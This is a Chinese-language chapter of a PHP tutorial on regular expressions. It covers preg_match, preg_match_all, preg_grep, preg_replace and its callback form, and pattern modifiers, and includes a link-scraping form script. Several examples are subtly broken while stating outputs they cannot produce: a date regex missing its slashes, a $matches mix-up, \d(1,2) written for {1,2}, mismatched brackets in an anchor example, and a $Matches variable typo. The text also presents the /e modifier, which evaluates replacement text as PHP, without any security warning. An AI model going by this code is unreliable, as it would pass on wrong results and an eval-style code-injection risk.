在字符类内部，你不需要转义先前提到的大多数特殊字符。例外情况是插入符，它仍然需要转义（除非你正像刚才所示那样用它来取消类），以及反斜杠，它用于指定简写字符类，如你稍后将看到。

你还可以使用各种由反斜杠后跟一个字母组成的简写字符类，如下所示：

| 字符类 | 含义 |
|---|---|
| `\d` | 数字 |
| `\D` | 任何不是数字的字符 |
| `\w` | 单词字符（字母、数字或下划线） |
| `\W` | 任何不是单词字符的字符 |
| `\s` | 空白字符（空格、制表符、换行符、回车符或换页符） |
| `\S` | 任何不是空白字符的字符 |


所以，若要在目标字符串的任意位置匹配数字字符，可以使用以下两种表达式之一：

```
/[0-9]/
```

/\d/

顺便说一句，你也可以在长形式字符类中使用简写字符类。以下表达式匹配目标字符串中的字母 "e" 或 "p"，或任意数字：

```
/[ep\d]/
```

以下是一些示例：

```
echo preg_match( "/\d[A-Z]/", "3D" ); // Displays "1"
echo preg_match( "/\d[A-Z]/", "CD" ); // Displays "0"
echo preg_match( "/\S\S\S/", "6&c" ); // Displays "1"
echo preg_match( "/\S\S\S/", "6 c" ); // Displays "0"
```

要匹配任意字符，请使用点号 (.)：

```
echo preg_match( "/He.../", "Hello" ); // Displays "1"
```

## 匹配多个字符

如果你想连续多次匹配相同的字符（或字符类），可以使用 _量词_。量词放在字符或字符类之后，表示该字符或类在目标字符串中应重复的次数。量词如下：

| 量词 | 含义 |
| :--- | :--- |
| * | 可出现零次或多次 |
| + | 可出现一次或多次 |
| ? | 可出现一次，也可以不出现 |
| {n} | 必须恰好出现 _n_ 次 |
| {n,} | 必须至少出现 _n_ 次 |
| {n,m} | 必须至少出现 _n_ 次，但不超过 _m_ 次 |

例如，你可以使用以下表达式匹配至少包含一位数字的字符串：

```
/\d+/
```

假设你想在字符串中搜索格式为 mm/dd/yy 或 mmm/dd/yyyy 的日期（例如，jul/15/06 或 jul/15/2006）。即三个小写字母，后跟斜杠，后跟一位或两位数字，后跟斜杠，后跟两到四位数字。以下正则表达式即可完成任务：

```
echo preg_match( "/[a-z]{3}\d{1,2}\d{2,4}/", "jul/15/2006" ); // Displays "1"
```

（此表达式并不完美——例如，它也会匹配三位数字的“年份”，但你大概明白意思。）

## 贪婪与非贪婪匹配

当你使用量词匹配多个字符时，量词默认是贪婪的。这意味着它们会尝试匹配尽可能多的字符。请参考以下代码：

```
preg_match( "/P.*r/", "Peter Piper", $matches ); echo $matches[0]; // Displays "Peter Piper"
```

该正则表达式的含义是：“匹配字母 'P'，后跟零个或多个任意类型的字符，后跟字母 'r'。”由于量词天生具有贪婪性，正则表达式引擎会在第一个 "P" 和最后一个 "r" 之间匹配尽可能多的字符——换言之，它匹配整个字符串。

你可以将量词改为非贪婪。这会使其匹配尽可能少的字符。要使量词变为非贪婪，请在量词后放置一个问号 (?)。例如，要匹配尽可能少的数字，请使用：

```
/\d+?/
```

使用非贪婪量词重写 Peter Piper 示例，将得到以下结果：

```
preg_match( "/P.*?r/", "Peter Piper", $matches ); echo $matches[0]; // Displays "Peter"
```

在此示例中，表达式匹配第一个字母 "P"，后跟尽可能少的字符（"ete"），后跟第一个字母 "r"。

## 使用子模式对模式进行分组

通过将正则表达式规则的某部分放在括号中，可以将这些规则分组为一个子模式。这样做的一大好处是，你可以使用量词（例如 * 和 ?）来匹配整个子模式一定次数。例如：

```
// Displays '1' echo preg_match( "/(row, ?)+your boat/", "row, row, row your boat" );
```

该正则表达式中的子模式为 "(row, ?) "。它的意思是：“字母 'r'、'o' 和 'w'，后跟零个或一个逗号，后跟一个空格字符。”然后，得益于后面的 + 量词，该子模式至少匹配一次，从而匹配目标字符串中的 "row, row, row" 部分。最后，模式中剩余的字符匹配字符串中的 "your boat" 部分。最终结果是整个字符串都被匹配。

使用子模式的一个副作用是，你可以在传递给 preg_match() 的 matches 数组中检索各个子模式匹配项。数组的第一个元素照常包含整个匹配文本，而每个后续元素包含任何匹配的子模式：

```
preg_match( "/(\d+)\/(\d+)\/(\d+) (\d+):(\d+.)/", "7/18/2004 9:34AM", $matches );
echo $matches[0] . "<br />"; // Displays "7/18/2004 9:34AM"
echo $matches[1] . "<br />"; // Displays "7/18/2004"
echo $matches[2] . "<br />"; // Displays "9:34AM"
```

## 引用之前的子模式匹配

你可以获取匹配子模式的文本，并在表达式的其他位置使用它。这称为后向引用。后向引用允许你创建非常强大且灵活的正则表达式。

要在表达式后面包含子模式的匹配文本，请写一个反斜杠，后跟子模式编号。例如，通过写入 \1 包含第一个子模式的匹配文本，通过写入 \2 包含下一个子模式的匹配文本。

请参考以下示例：

```
$myPets = "favoritePet=Lucky, Rover=dog, Lucky=cat";
preg_match( '/favoritePet=(\w+).*\\1=(\w+)/', $myPets, $matches );

// Displays "My favorite pet is a cat called Lucky."
echo "My favorite pet is a " . $matches[2] . " called " . $matches[1] . ".";
```

这段代码包含一个描述某人宠物的字符串。从字符串可知，他们最喜欢的宠物是 Lucky，且他们有两只宠物：一条名为 Rover 的狗和一只名为 Lucky 的猫。通过使用带有后向引用的正则表达式，代码可以推断出他们最喜欢的宠物是一只猫。

以下是表达式的工作原理。它首先查找字符串 "favoritePet="，后跟一个或多个单词字符（此例中为 "Lucky"）：

```
/favoritePet\=(\w+)/
```

接着，表达式查找零个或多个任意类型的字符，后跟第一个子模式匹配的字符串（"Lucky"），后跟等号，后跟一个或多个单词字符（此例中为 "cat"）：

```
.*\\1=(\w+)
```

最后，代码在向用户显示的消息中显示两个子模式匹配的结果（"Lucky" 和 "cat"）。

顺便说一句，请注意，此示例中的表达式字符串是用单引号括起来的，而不是通常的双引号。如果代码使用了双引号，则在 \1 之前需要额外的反斜杠（因为 PHP 在双引号字符串中假设 \1 是字符代码为 1 的 ASCII 字符）：

```
preg_match( "/favoritePet\=(\w+).*\1=(\w+)/", $myPets, $matches );
```

像这种字符转义问题曾让许多经验丰富的程序员栽过跟头，因此这是一个需要注意的地方：

## 匹配替代模式

正则表达式允许你使用 |（竖线）字符组合模式（和子模式）以创建替代方案。这有点像使用 |（或）运算符；如果与 | 字符组合的任何模式匹配，则整体模式匹配。

以下模式在目标字符串包含任意缩写的星期几（mon–sun）时匹配：

```
$day = "wed";
echo preg_match( "/mon|tue|wed|thu|fri|sat|sun/", $day ); // Displays "1"
```

你也可以在子模式中使用替代方案，这非常方便。以下是前面“日期检测”示例的重写版本，更加精确：

```
echo preg_match( "/(jan|feb|mar|apr|may|jun|jul|aug|sep|oct|nov|dec)" .
    "\d{1,2})\d{2,4})/", "jul/15/2006" ); // Displays "1"
```

## 使用锚点在指定位置匹配

通常，你关心模式在目标字符串中的 *位置*，与关心模式本身一样。例如，假设你想确保字符串以一个或多个数字后跟冒号开头。你可以尝试以下方法：

```
echo preg_match( "/\d+:/", "12: The String" ); // Displays "1"
```

但是，该表达式也会匹配数字和冒号位于中间的字符串：

```
echo preg_match( "/\d+:/", "Die Hard 2: Die Harder" ); // Displays "1"
```

如何确保只有当数字和冒号位于开头时字符串才匹配？答案是你可以使用 *锚点*（也称为 *断言*），如下所示：


```php
echo preg_match( "/^\\d+:/", "12: The Sting" ); // Displays "1"
echo preg_match( "/^\\d+:/", "Die Hard 2: Die Harder" ); // Displays "0"
```

脱字符（^）指定模式的其余部分仅在字符串开头处匹配。同样，你可以使用美元符号（$）将模式锚定到字符串末尾：

```php
echo preg_match( "/\\([G|PG|PG-13|R|NC-17)\\)$/", "The Sting [PG]" ); // Displays "1"
echo preg_match( "/\\([G|PG|PG-13|R|NC-17)\\)$/", "[PG] Amadeus" ); // Displays "0"
```

通过组合这两个锚点，你可以确保字符串仅包含所需的模式，不包含其他内容：

```php
echo preg_match( "/^Hello, \\w+$/", "Hello, world" ); // Displays "1"
echo preg_match( "/^Hello, \\w+$/", "Hello, world!" ); // Displays "0"
```

第二次匹配失败，因为目标字符串在所查找的模式和字符串末尾之间包含一个非单词字符（!）。

你可以使用其他锚点来更好地控制匹配。以下是可在正则表达式中使用的锚点完整列表：

| 锚点 | 含义 |
| :--- | :--- |
| ^ | 在字符串开头处匹配 |
| $ | 在字符串末尾处匹配 |
| \\b | 在单词边界处匹配（\\w 字符和 \\W 字符之间） |
| \\B | 在非单词边界处匹配 |
| \\A | 在字符串开头处匹配 |
| \\z | 在字符串末尾处匹配 |
| \\Z | 在字符串末尾处匹配，或在字符串末尾的换行符之前匹配 |
| \\G | 在传递给 preg_match() 函数的起始偏移字符位置处匹配 |

需要注意的是，锚点本身不匹配任何字符；它只是确保模式出现在目标字符串的指定位置。

\A 和 \z 与 ^ 和 $ 相似。区别在于，如果在多行模式下匹配多行字符串（本章后面“使用模式修饰符更改匹配行为”部分将解释），^ 和 $ 也会分别匹配行的开头和结尾。\A 和 \z 仅分别匹配目标字符串的开头和结尾。

\z 在从文件中读取行时很有用，这些行末尾可能有换行符，也可能没有。

\b 和 \B 在搜索文本中的完整单词时非常方便：

```php
echo preg_match( "/over/", "My hovercraft is full of eels" ); // Displays "1"
echo preg_match( "/\bover\b/", "My hovercraft is full of eels" ); // Displays "0"
echo preg_match( "/\bover\b/", "One flew over the cuckoo's nest" ); // Displays "1"
```

使用 \b 时，字符串的开头或结尾也被视为单词边界：

```php
echo preg_match( "/\bover\b/", "over and under" ); // Displays "1"
```

通过使用 \b 锚点，以及子表达式中的备选项，可以进一步增强早期的“日期检测”示例，使其仅匹配两位或四位年份（而不匹配三位年份）：

```php
echo preg_match ( "/\b(jan|feb|mar|apr|may|jun|jul|aug|sep|oct|nov|dec)" .
"\/\d(1,2)\/(\d{2}|\d{4})\b/", "jul/15/2006" ); // Displays "1"
echo preg_match ( "/\b(jan|feb|mar|apr|may|jun|jul|aug|sep|oct|nov|dec)" .
"\/\d(1,2)\/(\d{2}|\d{4})\b/", "jul/15/206" ); // Displays "0"
```

表达式的最后一部分读作：“匹配两位或四位数字，后跟单词边界（或字符串结尾）”：

```
(\d{2}|\d{4})\b
```

你还可以创建自己的锚点类型；例如，你可以仅在文本出现在和号之前时匹配，或仅在其出现在大写字母之后时匹配（而不实际将和号或大写字母包含在匹配中）。这种自定义锚点称为前瞻和后顾断言，超出了本章的范围；不过，你可以在 PHP 手册中阅读有关它们的内容，网址为 http://www.php.net/manual/en/regexp.reference.assertions.php。

## 使用 preg_match_all() 查找多个匹配项

虽然 preg_match() 函数在许多字符串匹配场景中很有用，但它只在目标字符串中找到第一个模式匹配。有时你想查找字符串中的所有匹配项。例如，你可能想提取电子邮件消息中提到的所有电话号码列表，或统计 HTML 网页中的链接数量。

要查找字符串中正则表达式的所有匹配项，请使用 `preg_match_all()` 函数。`preg_match_all()` 接受与 `preg_match()` 相同的参数：

- 正则表达式
- 要搜索的字符串
- 用于保存匹配项的数组（注意，对于 `preg_match_all()`，数组不是可选的）
- 匹配操作的可选标志
- 开始搜索的可选偏移量

与 `preg_match()` 类似，`preg_match_all()` 将匹配项数作为整数返回。与 `preg_match()` 不同，后者的返回值只能是 0 或 1，而 `preg_match_all()` 返回字符串中的匹配项总数：

```php
$text = "Call Mary on 499 012 3456, John on 876 543 2101, or Karen:
777 111 2345";
echo preg_match_all( "/\b\d{3} \d{3} \d{4}\b/", $text, $matches ); //
Displays "3"
```

`preg_match_all()` 将所有匹配项存储在作为第三个参数传递给它的数组中。匹配项存储在数组的第一个元素中（索引为零），作为嵌套数组：

```php
$scores = "John: 143 points, Anna: 175 points, and Nicole: 119 points";
preg_match_all( "/\w+:\s\d+ points/", $scores, $matches );
echo $matches[0][0] . "<br />"; // Displays "John: 143 points"
echo $matches[0][1] . "<br />"; // Displays "Anna: 175 points"
echo $matches[0][2] . "<br />"; // Displays "Nicole: 119 points"
```

```
// The following code displays:
//
// John scored 143
// Anna scored 175
// Nicole scored 119
```

如果你的表达式包含子模式，则来自这些子模式的文本匹配项存储在后续数组元素中。请参考以下示例：

```php
$scores = "John: 143 points, Anna: 175 points, and Nicole: 119 points";
preg_match_all( "/(\w+):\s(\d+) points/", $scores, $matches );
echo $matches[0][0] . "<br />"; // Displays "John: 143 points"
echo $matches[0][1] . "<br />"; // Displays "Anna: 175 points"
echo $matches[0][2] . "<br />"; // Displays "Nicole: 119 points"
```

```
// The following code displays:
//
// John scored 143
// Anna scored 175
// Nicole scored 119
```

```php
echo $matches[1][0] . " scored " . $matches[2][0] . "<br />";
echo $matches[1][1] . " scored " . $matches[2][1] . "<br />";
echo $matches[1][2] . " scored " . $matches[2][2] . "<br />";
```

从这个示例可以看出，索引为 1 的元素是一个嵌套数组，包含来自第一个子模式（玩家姓名）的所有匹配项，而索引为 2 的元素包含来自第二个子模式（分数）的所有匹配项。表达式中的每个子模式，匹配项数组中都会创建一个额外元素。

如果你愿意，可以让 preg_match_all() 交换索引，使第一个索引表示匹配项编号，第二个索引表示子模式编号。（你可能会发现这种方式的数组更易于处理。）要实现此目的，请将 PREG_SET_ORDER 标志作为第四个参数传递给 preg_match_all()：

```php
$scores = "John: 143 points, Anna: 175 points, and Nicole: 119 points";
preg_match_all( "/(\w+)\:\s(\d+) points/", $scores, $matches, PREG_SET_ORDER
);
echo $matches[0][0] . "<br />"; // Displays "John: 143 points"
echo $matches[1][0] . "<br />"; // Displays "Anna: 175 points"
echo $matches[2][0] . "<br />"; // Displays "Nicole: 119 points"
```

```
// The following code displays:
// John scored 143
// Anna scored 175
// Nicole scored 119
```

```php
echo $matches[0][1] . " scored " . $matches[0][2] . "<br />";
echo $matches[1][1] . " scored " . $matches[1][2] . "<br />";
echo $matches[2][1] . " scored " . $matches[2][2] . "<br />";
```

请注意，数组元素的嵌套已被颠倒。匹配项数组中的每个顶层元素现在都是一个嵌套数组，其中包含作为元素 0 的完整匹配字符串，以及作为元素 1 和 2 的每个子模式匹配项。

与 preg_match() 类似，你也可以传递 PREG_OFFSET_CAPTURE 标志以访问目标字符串中每个匹配项（或子模式匹配项）的位置。这会使每个匹配项作为两个元素的嵌套数组返回（而不是字符串），第一个元素是匹配的文本，第二个元素是偏移量。最终结果是，匹配项数组包含三层嵌套：子模式编号（整个模式则为零），然后是匹配项编号，然后是匹配的文本和偏移量。例如：

```php
$scores = "John: 143 points, Anna: 175 points, and Nicole: 119 points";
preg_match_all( "/(\w+)\:\s(\d+) points/", $scores, $matches,
PREG_OFFSET_CAPTURE );
```

```
// The following code displays:
// John: 143 points (position: 0)
// Anna: 175 points (position: 18)
// Nicole: 119 points (position: 40)
```

```php
echo $matches[0][0][0] . " (position: " . $matches[0][0][1] . ")<br />";
echo $matches[0][1][0] . " (position: " . $matches[0][1][1] . ")<br />";
echo $matches[0][2][0] . " (position: " . $matches[0][2][1] . ")<br />";
```

你可以按以下方式组合 PREG_SET_ORDER 和 PREG_OFFSET_CAPTURE：

```php
preg_match_all( "/(\w+)\:\s(\d+) points/", $scores, $matches, PREG_SET_ORDER
| PREG_OFFSET_CAPTURE );
```

在这种情况下，匹配项数组的顶层将包含匹配项编号，第二层将包含子模式编号，第三层将包含匹配的文本和偏移量。


## 试试看：查找网页中的所有链接

在本示例中，您将配合正则表达式使用 `preg_match_all()` 来提取并显示 HTML 网页中的所有链接。将以下脚本另存为文档根目录下的 find_links.php：

```php
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Find Linked URLs in a Web Page</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Find Linked URLs in a Web Page</h1>
<?php
displayForm();
if ( isset( $_POST["submitted"] ) ) {
    processForm();
}
function displayForm() {
?>
<h2>Enter a URL to scan:</h2>
<form action="" method="post" style="width: 30em;">
<div>
<input type="hidden" name="submitted" value="1" />
<label for="url">URL:</label>
<input type="text" name="url" id="url" value="" />
<label> </label>
<input type="submit" name="submitButton" value="Find Links" />
</div>
</form>
<?php
}
function processForm() {
$url = $_POST["url"];
if ( !preg_match( '|^http(s)?://|', $url ) ) $url = "http://$url";
$html = file_get_contents( $url );
preg_match_all( "/<a\s*href=['\"](.+?)['\"].*>/i", $html, $Matches );
echo "<div style=\"clear: both;\"> </div>";
echo "<h2>Linked URLs found at " . htmlspecialchars( $url ) . ":</h2>";
echo "<ul>";
for ( $i = 0; $i < count( $matches[1] ); $i++ ) {
    echo "<li>" . htmlspecialchars( $matches[1][$i] ) . "</li>";
}
echo "</ul>";
}
?>
</body>
</html>
```

在 Web 浏览器中访问该脚本的 URL 来运行它。在出现的表单中，输入已知网站的 URL 并单击 Find Links。稍等片刻，您应该会看到一个列表，列出该页面链接到的所有 URL，如图 18-1 所示。


图 18-1

### 工作原理

显示 XHTML 页面标题后，脚本会调用 `displayForm()` 来显示一个请求扫描 URL 的简单表单。如果表单已提交，则通过调用 `processForm()` 对其进行处理：

```php
displayForm();

if ( isset( $_POST["submitted"] ) ) {
    processForm();
}
```

## 第 18 章：使用正则表达式进行字符串匹配

`displayForm()` 输出一个 HTML 表单，将其数据发送回 `find_links.php` 脚本。此表单仅包含两个控件：一个 url 字段供用户输入要扫描的 URL，以及一个 Find Links 按钮用于提交表单。

`processForm()` 首先会对提交的 URL 进行一些简单的验证：如果它不是以 http:// 或 https:// 开头，则假定为 http://，并将其添加到 URL 前面。请注意使用正则表达式来判断 URL 是否以 http:// 或 https:// 开头。该表达式由竖线（|）而不是通常的斜杠分隔；这样可以避免在表达式中转义双斜杠：

```php
if ( !preg_match( '|^http(s)?://|', $url ) ) $url = "http://$url";
```

验证 URL 后，将其传递给内置的 `file_get_contents()` 函数。您可能还记得，在第 11 章中，当传递一个 URL 时，`file_get_contents()` 会请求该 URL 并返回该 URL 处页面的内容，就像读取文件一样。这是一种快速且简便的读取网页 HTML 的方法。

该函数的核心在于对 `preg_match_all()` 函数的调用，它使用正则表达式来提取页面中的所有链接 URL：

```php
preg_match_all( "/<a\s*href=['\"](.+?)['\"].*>/i", $html, $matches );
```

该正则表达式的含义如下：

- 1. 匹配左尖括号 (<) 和字母 "a"，后面跟零个或多个空白字符。
- 2. 匹配字符 "href="，后面跟单引号或双引号字符（HTML 中两者均可使用）。
- 3. 匹配至少一个字符，后面跟另一个单引号或双引号。问号确保匹配是非贪婪的（否则将匹配页面中直到最后一个单引号或双引号的所有文本）。该模式用括号括起来，以捕获生成的 URL。
- 4. 匹配零个或多个字符，后面跟右尖括号。这确保匹配整个 <a> 标签。同样使用非贪婪匹配，否则将匹配页面中直到最后一个右尖括号的所有文本。

请注意闭合分隔符后的字母 i。这被称为模式修饰符，它导致匹配不区分大小写（因为 HTML 可以使用大写或小写编写）。有关更多详细信息，请参见本章末尾的“使用模式修饰符更改匹配行为”部分。

提取所有链接的 URL 后，只需将其作为无序列表显示即可。请注意，出于安全和 XHTML 合规性的原因，会调用 `htmlspecialchars()` 来转义输出中的任何标记字符：

```php
echo '<div style="clear: both;"> </div>';
echo "<h2>Linked URLs found at " . htmlspecialchars( $url ) . ":</h2>";
echo "<ul>";
for ( $i = 0; $i < count( $matches[1] ); $i++ ) {
echo "<li>" . htmlspecialchars( $matches[1][$i] ) . "</li>";
}
echo "</ul>";
```

## 使用 `preg_grep()` 搜索数组

`preg_match()` 和 `preg_match_all()` 搜索单个字符串文本。如果要搜索整个字符串数组，可以使用 `preg_grep()`。该函数接受三个参数——正则表达式、字符串数组和可选标志——并返回一个数组，其中包含匹配该表达式的数组元素，并以原始数组中元素的索引为键。示例如下：

```php
$text = array(
    "His three whales are as good whales as were ever published in",
    "Wapping, at any rate; and his stump as unquestionable a stump",
    "as any you will find in the western clearings."
);

$results = preg_grep( "/\bin\b/", $text );
echo "<pre>";
print_r( $results );
echo "</pre>";
```

这段代码在 `$text` 数组的字符串中搜索单词 "in"，并产生以下输出：

```
Array
(
    [0] => His three whales are as good whales as were ever published in
    [2] => as any you will find in the western clearings.
)
```

如果您希望获取 _不匹配_ 模式的元素列表，请将 `PREG_GREP_INVERT` 标志作为第三个参数传递给 `preg_grep()`：

```php
$text = array(
    "His three whales are as good whales as were ever published in",
    "Wapping, at any rate; and his stump as unquestionable a stump",
    "as any you will find in the western clearings."
);

$results = preg_grep( "/\bin\b/", $text, PREG_GREP_INVERT );
echo "<pre>";
print_r( $results );
echo "</pre>";
```

这段代码显示：

```
Array
(
    [1] => Wapping, at any rate; and his stump as unquestionable a stump
)
```

`preg_grep()` 不提供太多细节，例如实际匹配的文本或匹配次数，但它非常适合快速将大量文本字符串（例如数据库查询返回的结果）缩小到仅匹配的字符串。如果需要，随后可以对匹配的字符串进行更精细的搜索。

## 替换文本

如您在第 5 章中所读，搜索字符串只是故事的一半。通常，您需要用新文本替换字符串的一部分。

像 `str_replace()` 这样的简单搜索替换函数用于替换普通字符串非常有用。但是，如果您需要替换更复杂的文本模式，可以使用 PHP 的正则表达式字符串替换函数 `preg_replace()` 和 `preg_replace_callback()`。您将在以下部分中探索这两个函数。

### 使用 `preg_replace()` 替换文本

`preg_replace()` 允许您将模式与目标字符串匹配（类似于 `preg_match()`），并将匹配的文本替换为不同的文本。在最基本的形式中，`preg_replace()` 接受三个参数：

- 要搜索的正则表达式（作为字符串）。
- 用于替换任何匹配文本的替换文本。
- 要搜索的目标字符串。

`preg_replace()` 返回目标字符串，其中任何匹配的文本都已被替换文本替换。以下是一个简单示例，它搜索美元符号后跟若干数字、一个点以及两个数字，并将此文本替换为字符串 "[CENSORED]"：

```php
$text = "The wholesale price is $89.50.";

// Displays "The wholesale price is [CENSORED]."
echo preg_replace( "/\$\d+\.\d{2}/", "[CENSORED]", $text );
```

还记得本章前面使用 `preg_match()` 时的后向引用吗？您也可以在替换字符串中使用后向引用——只需写入美元符号 ($) 后跟后向引用编号：

```php
$text = "Author: Steinbeck, John";

// Displays "Author: John Steinbeck"
echo preg_replace( "/(\w+),\s(\w+)/", "$2 $1", $text );
```

如果要在替换字符串中包含整个匹配文本，请使用 $0（美元符号后跟零）：

```php
$text = "Mouse mat: $3.99";

// Displays "Mouse mat: Only $3.99"
echo preg_replace( "/\$\d+\.\d{2}/", "Only $0", $text );
```


你也可以传递一个目标字符串数组供 `preg_replace()` 处理，这很像使用 `preg_grep()`。如果这样做，`preg_replace()` 将返回一个字符串数组，其中任何匹配的文本都会被替换文本替换：

```php
$text = array(
   "Mouse mat: $3.99",
   "Keyboard cover: $4.99",
   "Screen protector: $5.99"
);
$newText = preg_replace( "/\$\d+\.\d{2}/", "Only $0", $text );
echo "<pre>";
print_r( $newText );
echo "</pre>";
```

```
Array
(
    [0] => Mouse mat: Only $3.99
    [1] => Keyboard cover: Only $4.99
    [2] => Screen protector: Only $5.99
)
```

`preg_replace()` 还有几个绝招。你可以向函数传递一个正则表达式字符串数组，它将依次匹配并替换每个表达式，使用替换字符串：

```php
$text = "The wholesale price is $89.50. " .
   "The product will be released on Jan 16, 2010.";
$patterns = array(
   "/\$\d+\.\d{2}/",
   "/\w{3} \d{1,2}, \d{4}/"
);
echo preg_replace( $patterns, "[CENSORED]", $text );
```

```
The wholesale price is [CENSORED]. The product will be released on
[CENSORED].
```

如果你还传递一个替换字符串数组，表达式数组中每个表达式的匹配文本将被替换数组中对应的字符串替换：

```php
$text = "The wholesale price is $89.50. " .
   "The product will be released on Jan 16, 2010.";
$patterns = array(
   "/\$\d+\.\d{2}/",
   "/\w{3} \d{1,2}, \d{4}/"
);
```

```php
$replacements = array(
    "[PRICE CENSORED]",
    "[DATE CENSORED]"
);
```

```php
echo preg_replace( $patterns, $replacements, $text );
```

显示：

批发价格为 [PRICE CENSORED]。产品将于 [DATE CENSORED] 发布。

如果你的替换数组包含的元素少于表达式数组，则任何没有对应替换的表达式的匹配文本将被替换为空字符串。例如：

```php
$text = "The wholesale price is $89.50. " .
    "The product will be released on Jan 16, 2010.";
```

```php
$patterns = array(
    "/\$\d+\.\d{2}/",
    "/\w{3} \d{1,2}, \d{4}/"
);
```

```php
$replacements = array(
    "[PRICE CENSORED]"
);
```

```php
echo preg_replace( $patterns, $replacements, $text );
```

显示：

批发价格为 [PRICE CENSORED]。产品将于 发布。

`preg_replace()` 还支持两个可选参数。第一个参数是一个整数，可让你限制模式（或模式）在目标字符串（或字符串）中被替换的次数：

```php
// Displays "71%, 83%"
echo preg_replace( "/\d+%(, | )*/", "", "14%, 59%, 71%, 83%", 2 );
```

此模式将百分比数字（后面可选地跟有逗号和空格）替换为空字符串。因为提供了限制参数 2，因此仅替换前两个匹配项。

第二个可选参数是一个用于保存已执行替换次数的变量。（如果你想使用此参数但又不想限制替换次数，请为前一个参数传递 -1。）以下示例将字符 '%' 替换为字符串 "percent" 四次，并显示替换次数：

```php
preg_replace( "/\%/", " percent", "14%, 59%, 71%, 83%", -1, $count );
echo $count; // Displays "4"
```

$count 中存储的数字是执行的替换总数。因此，如果你传递一个包含 10 个目标字符串的数组，并且其中五个字符串各被替换一次，则 $count 等于 5。

## 使用回调函数替换文本

`preg_replace()` 是一个功能强大、灵活的函数，提供了多种查找和替换文本的方式。但是，如果你需要更多灵活性，可以使用 `preg_replace_callback()`，它让你创建一个回调函数来处理操作的替换部分。

`preg_replace_callback()` 的工作方式与 `preg_replace()` 非常相似，接受所有相同的参数，区别在于你不再将替换字符串（或字符串数组）作为第二个参数传递，而是将回调函数的名称作为字符串传递。

你的回调函数需要接受一个匹配项数组。数组的第一个元素（索引 0）包含整个匹配的文本，其他元素包含任何匹配的子模式。你的函数返回的字符串随后将用作替换文本。

下面是一个示例。假设你有大量提及网上商店中各种产品价格的销售文案，你希望将所有产品价格提高一美元。你无法在正则表达式中进行算术运算，但可以使用 `preg_replace_callback()` 和一个回调函数来将数字相加：

```php
$text = "Our high-quality mouse mat is just $3.99,
while our keyboard covers sell for $4.99 and our
screen protectors for only $5.99.";

function addADollar( $matches ) {
    return "$" . ( $matches[1] + 1 );
}

echo preg_replace_callback( "/\\$(\d+.\d{2})/", "addADollar", $text );
```

`addADollar()` 回调函数获取匹配数组中的第二个元素，该元素包含正则表达式中子模式匹配的文本（即不带美元符号的价格），然后在其上加一。它返回这个新值，前面带有美元符号。此字符串随后由 `preg_replace_callback()` 用于替换匹配的文本，产生以下结果：

我们的高品质鼠标垫仅售 $4.99，而我们的键盘保护套售价为
$5.99，屏幕保护膜仅需 $6.99。

## 使用模式修饰符更改匹配行为

通过在正则表达式的结束分隔符后直接放置一个称为模式修饰符的单个字母，可以更改表达式的行为。以下是一些更有用的修饰符列表：

| 修饰符 | 说明 |
| :--- | :--- |
| i | 使匹配不区分大小写：模式中的字母匹配字符串中的大写和小写字符 |
| m | 如果目标字符串包含换行符，则将其视为单独的文本行。这意味着表达式中的 ^ 和 $ 字符不仅匹配字符串的开头和结尾，还匹配字符串中每一行的开头和结尾 |
| s | 通常，表达式中的点 (.) 字符匹配除换行符之外的任何字符。添加此修饰符后，可以使点字符也匹配换行符 |
| x | 此修饰符会忽略模式中的空白字符，而不是将其视为要匹配的字符。（但是，字符类中的空白字符永远不会被忽略。）这样你可以将正则表达式拆分为多行并进行缩进，就像普通 PHP 代码一样，以帮助提高可读性。你还可以通过在它们前面加上 # 符号来在表达式中包含注释。如果在使用此修饰符时想要显式匹配空白字符，请使用 " "（空格）、"\t"（制表符）或 "\s"（任何空白字符） |
| e | 仅由 `preg_replace()` 使用。此修饰符允许你在替换字符串中使用 PHP 代码。替换字符串中的任何后向引用（$1、$2 等）首先被替换为其匹配的文本。然后将该字符串评估为 PHP 代码，并使用生成的表达式进行替换 |
| U | 反转表达式中量词的“贪婪性”：任何非贪婪量词都变为贪婪，任何贪婪量词都变为非贪婪 |

例如，你可以通过在表达式的结束分隔符后添加 `i` 来使表达式不区分大小写：

```php
$text = "Hello, world!";
echo preg_match( "/hello/", $text ) . "<br />"; // Displays "0"
echo preg_match( "/hello/i", $text ) . "<br />"; // Displays "1"
```

以下示例展示了 `m` 修饰符的工作原理。第一个表达式尝试匹配字符“world！”后跟字符串结尾。由于“world！”不在目标字符串的末尾，因此匹配失败。但是，第二个表达式使用 `m` 修饰符。这会导致 `$` 字符匹配“world！”后面的换行符：

```php
$text = "Hello, world!\nHow are you today?\n";
echo preg_match( "/world!$/", $text ) . "<br />"; // Displays "0"
echo preg_match( "/world!$/m", $text ) . "<br />"; // Displays "1"
```

如果你正在处理一个多行字符串（例如从文件或数据库查询中读取的字符串），并希望将其视为多行文本而不是一个长字符串，则 `m` 修饰符非常有用。

通过向表达式添加 `x` 修饰符，你可以将表达式拆分为多行并添加注释——这对于复杂表达式非常方便：


$text = "Andy scored 184 points, Rachel attained 198 points and Bert scored 112 points.";

$pattern = "/
(Andy|Rachel|Bert)\\  # Only match people we know about
(scored|attained)\\  # Two words, same meaning
(\\d+)  # The number of points scored
/x";

preg_match_all( $pattern, $text, $matches );

for ( $i = 0; $i < count( $matches[0] ); $i++ ) {
 echo $matches[1][$i] . ": " . $matches[3][$i] . "<br />";
 }
```

这段代码产生以下输出：

```
Andy: 184
Rachel: 198
Bert: 112
```

最后，这里有一个使用 e 修饰符的示例。这是本章前面 preg_replace_callback() 部分中使用的同一示例，改写为使用 e 代替：

```php
$text = "Our high-quality mouse mat is just $3.99,
while our keyboard covers sell for $4.99 and our
screen protectors for only $5.99.";

echo preg_replace( "/\\$(\\d+\\.\\d{2})/e", "'$ . ($1 + 1)'", $text );
```

对于每个匹配，替换字符串中的 PHP 代码会显示一个美元符号，后跟子模式匹配的文本（价格）加一。这会产生以下输出：

```
Our high-quality mouse mat is just $4.99, while our keyboard covers sell for $5.99 and our screen protectors for only $6.99.
```

您可以一次组合多个修饰符——只需一个接一个地添加修饰符字母即可：

```php
$text = "Hello, World!\nHow are you today?\n";
echo preg_match( "/world!$/im", $text ) . "<br />"; // Displays "1"
```

您可以在 http://www.php.net/manual/en/reference.pcre.pattern.modifiers.php 上查看模式修饰符的完整列表。

